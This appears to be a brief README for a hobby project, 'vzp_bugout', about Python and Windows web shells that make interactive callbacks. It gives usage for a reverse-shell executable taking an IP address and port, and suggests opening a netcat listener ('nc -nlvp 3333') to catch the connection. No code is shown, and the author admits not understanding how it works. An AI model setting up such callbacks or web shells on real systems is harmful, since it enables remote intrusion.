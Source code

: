 # vzp_bugout
fun with python, windows web shells, and trying to get more interactive callbacks
<br>
The python is here, feel free to steal, that's what I did.
<br>
USAGE:  bugout.exe \<youripaddr\> \<yourportlistener\>
<br>
maybe setup a: nc -nlvp 3333 first or something.
<br>
No idea how this really works yet...
